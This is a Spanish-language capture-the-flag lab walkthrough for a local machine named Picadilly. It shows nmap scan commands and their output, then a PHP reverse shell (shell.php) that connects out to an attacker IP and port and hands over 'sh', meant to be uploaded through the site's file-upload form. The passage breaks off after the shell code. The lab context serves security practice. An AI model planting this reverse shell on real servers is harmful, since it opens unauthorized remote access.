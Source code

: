 Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 14:57 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000024s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-title: Picadilly
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: picadilly.lab

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

Si entramos en el `443` que parece interesante, veremos una pagina normal que abajo del todo se puede subir un archivo, por lo que probaremos a subir un `PHP` para crearnos una `reverse shell`.

## Escalate user www-data

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
